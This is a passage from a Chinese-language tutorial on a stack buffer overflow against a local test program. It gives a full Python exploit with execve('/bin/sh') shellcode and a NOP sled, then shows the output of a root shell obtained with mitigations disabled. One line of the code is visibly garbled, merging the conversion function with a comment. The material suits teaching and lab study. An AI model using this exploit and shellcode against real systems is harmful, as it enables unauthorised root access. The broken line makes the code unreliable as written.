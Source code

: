 以上输出显示攻击者可以控制返回地址。 位于堆栈位置（0xbffff1fc）的返回地址被BBBB覆盖。 有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

##### 测试步骤3：使用攻击代码

攻击代码：

```Python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",numnk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序，给了我们root shell，如下所示：

>注意：为了获得这个root shell，需要关闭了许多漏洞利用缓解技术。
```Shell
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 参考资料

1. https://wizardforcel.gitbooks.io/sploitfun-linux-x86-exp-tut/1.html
2. https://www.freebuf.com/column/176154.html
3. https://github.com/JnuSimba/LinuxSecNotes